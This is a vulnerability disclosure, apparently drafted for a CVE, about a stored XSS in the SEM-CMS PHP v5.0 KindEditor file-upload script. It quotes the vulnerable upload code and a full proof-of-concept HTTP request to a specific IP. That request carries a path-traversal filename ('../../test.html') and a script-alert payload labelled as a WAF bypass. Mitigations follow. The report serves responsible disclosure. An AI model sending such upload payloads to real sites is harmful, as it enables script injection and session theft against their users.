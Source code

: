 ### Security Vulnerability Report for CVE Submission

#### 1. Stored XSS Vulnerability

**Download Link:** [SEM-CMS PHP v5.0](https://www.sem-cms.com/TradeCmsdown/php/semcms_php_5.0.zip)

```php
<?php
/**
 * KindEditor PHP
 *
 * This PHP script is a demonstration and should not be used directly in production projects.
 * If you decide to use this script, please carefully review the relevant security settings before use.
 */

require_once 'JSON.php';

$php_path = dirname(__FILE__) . '/';
$php_url = dirname($_SERVER['PHP_SELF']) . '/';

// File save directory path
$save_path = $php_path . '../../Images/attached/';
// File save directory URL
$save_url = $php_url . '../../Images/attached/';
// Allowed file extensions
$ext_arr = array(
	'image' => array('gif', 'jpg', 'jpeg', 'png', 'bmp'),
	'flash' => array('swf', 'flv'),
	'media' => array('swf', 'flv', 'mp3', 'wav', 'wma', 'wmv', 'mid', 'avi', 'mpg', 'asf', 'rm', 'rmvb'),
	'file' => array('doc', 'docx', 'xls', 'xlsx', 'ppt', 'htm', 'html', 'txt', 'zip', 'rar', 'gz', 'bz2'),
);
// Maximum file size
$max_size = 1000000;

$save_path = realpath($save_path) . '/';

// PHP upload failure
if (!empty($_FILES['imgFile']['error'])) {
	switch ($_FILES['imgFile']['error']) {
		case '1':
			$error = 'Exceeds the allowed size by php.ini.';
			break;
		case '2':
			$error = 'Exceeds the form allowed size.';
			break;
		case '3':
			$error = 'Only part of the image was uploaded.';
			break;
		case '4':
			$error = 'Please select an image.';
			break;
		case '6':
			$error = 'Temporary directory not found.';
			break;
		case '7':
			$error = 'Error writing file to disk.';
			break;
		case '8':
			$error = 'File upload stopped by extension.';
			break;
		case '999':
		default:
			$error = 'Unknown error.';
	}
	alert($error);
}

// When there is an uploaded file
if (empty($_FILES) === false) {
	// Original filename
	$file_name = $_FILES['imgFile']['name'];
	// Temporary server filename
	$tmp_name = $_FILES['imgFile']['tmp_name'];
	// File size
	$file_size = $_FILES['imgFile']['size'];
	// Check filename
	if (!$file_name) {
		alert("Please select a file.");
	}
	// Check directory
	if (@is_dir($save_path) === false) {
		alert("Upload directory does not exist.");
	}
	// Check directory write permissions
	if (@is_writable($save_path) === false) {
		alert("Upload directory does not have write permissions.");
	}
	// Check if file was uploaded
	if (@is_uploaded_file($tmp_name) === false) {
		alert("Upload failed.");
	}
	// Check file size
	if ($file_size > $max_size) {
		alert("Uploaded file size exceeds limit.");
	}
	// Check directory name
	$dir_name = empty($_GET['dir']) ? 'image' : trim($_GET['dir']);
	if (empty($ext_arr[$dir_name])) {
		alert("Invalid directory name.");
	}
	// Get file extension
	$temp_arr = explode(".", $file_name);
	$file_ext = array_pop($temp_arr);
	$file_ext = trim($file_ext);
	$file_ext = strtolower($file_ext);
	// Check extension
	if (in_array($file_ext, $ext_arr[$dir_name]) === false) {
		alert("Uploaded file extension is not allowed.\nOnly " . implode(",", $ext_arr[$dir_name]) . " formats are allowed.");
	}
	// Create directory
	if ($dir_name !== '') {
		$save_path .= $dir_name . "/";
		$save_url .= $dir_name . "/";
		if (!file_exists($save_path)) {
			mkdir($save_path);
		}
	}
	$ymd = date("Ymd");
	$save_path .= $ymd . "/";
	$save_url .= $ymd . "/";
	if (!file_exists($save_path)) {
		mkdir($save_path);
	}
	// New filename
	$new_file_name = date("YmdHis") . '_' . rand(10000, 99999) . '.' . $file_ext;
	// Move file
	$file_path = $save_path . $new_file_name;
	if (move_uploaded_file($tmp_name, $file_path) === false) {
		alert("Failed to move uploaded file.");
	}
	@chmod($file_path, 0644);
	$file_url = $save_url . $new_file_name;

	header('Content-type: text/html; charset=UTF-8');
	$json = new Services_JSON();
	echo $json->encode(array('error' => 0, 'url' => $file_url));
	exit;
}

function alert($msg) {
	header('Content-type: text/html; charset=UTF-8');
	$json = new Services_JSON();
	echo $json->encode(array('error' => 1, 'message' => $msg));
	exit;
}
```

**Attack Vector:**

```
POST //Edit/php/upload_json.php?dir=file HTTP/1.1
Host: 111.231.1.116:82
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUXoPLk1h1J5BweQB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Content-Length: 224

------WebKitFormBoundaryUXoPLk1h1J5BweQB
Content-Disposition: form-data; name="imgFile"; filename="../../test.html"
Content-Type: image/jpeg

ByPassWaf<script>alert(1)</script>
------WebKitFormBoundaryUXoPLk1h1J5BweQB--
```

![image](https://github.com/user-attachments/assets/3821c8a5-d5e4-4a26-8bab-b41147ca778a)


![image](https://github.com/user-attachments/assets/af0abf86-b856-494b-8d67-6d21c8c1036f)


---

### Summary

The provided code contains a stored Cross-Site Scripting (XSS) vulnerability due to insufficient input validation and sanitization. An attacker can exploit this vulnerability by uploading a malicious HTML file containing JavaScript code that gets executed when accessed by other users or administrators.

**Steps to Reproduce:**
1. Upload a file with a `.html` extension containing malicious JavaScript code.
2. The uploaded file is saved in the web-accessible directory.
3. Access the uploaded file through its URL, triggering the stored XSS attack.

**Impact:**
- Potential theft of user credentials.
- Session hijacking.
- Defacement of the website.
- Spread of malware.

**Recommendations:**
1. Implement proper input validation and sanitization for all user inputs.
2. Use a Content Security Policy (CSP) to mitigate XSS attacks.
3. Ensure files uploaded do not contain executable scripts.
4. Regularly audit and update your security practices to prevent similar vulnerabilities.

